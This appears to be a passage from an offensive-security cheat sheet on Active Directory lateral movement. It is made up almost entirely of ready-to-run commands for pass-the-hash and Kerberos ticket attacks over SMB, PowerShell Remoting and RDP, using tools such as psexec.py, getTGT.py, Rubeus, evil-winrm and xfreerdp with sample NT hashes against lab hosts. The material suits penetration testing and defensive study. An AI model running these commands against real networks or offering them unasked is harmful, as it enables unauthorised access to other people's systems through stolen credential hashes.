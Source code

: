 #### Using SMB (p445)
NTLM authentication 

- with Pass-The-Hash (NT ou LM).
```
psexec.py contoso.local/User@192.168.100.10 -hashes :cdeae556dc28c24b5b7b14e9df5b6e21
```
Kerberos authentication. Tickets format are different between Linux and Windows, ticket_converter or cerbero can be used to convert them. 
- with TGT request using PtH
```
getTGT.py contoso.local/User -dc-ip 192.168.100.2 -hashes :cdeae556dc28c24b5b7b14e9df5b6e21
export KRB5CCNAME=$(pwd)/User.ccache

# Hostname instead of IP is mandatory when connecting because it is used identify the service of the remote machine and provide the right ticket to authenticate against it.
psexec.py contoso.local/User@WS01-10 -target-ip 192.168.100.10 -k -no-pass
```

#### Using PowerShell Remoting (p5985)

- PowerShell on Windows, use Rubeus or Mimikatz to PtH

```
.\Rubeus.exe asktgt /user:Administrator /rc4:b73fdfe10e87b4ca5c0d957f81de6863 /ptt
Enter-PSSession -ComputerName dc01
```

- Evil-winrm on Linux, support PtH
```
evil-winrm -u user -p password -i 10.10.10.10
evil-winrm -u user -H <NT_hash> -i 10.10.10.10
```

#### Using RDP (p3389)

PtH possible only if restricted admin mode for RDP is enabled.
```
xfreerdp /u:Anakin@contoso.local /pth:cdeae556dc28c24b5b7b14e9df5b6e21 /v:192.168.122.14
```
On Windows, PtH using mimikatz or Rubeus
```
mstsc.exe /restrictedadmin
```
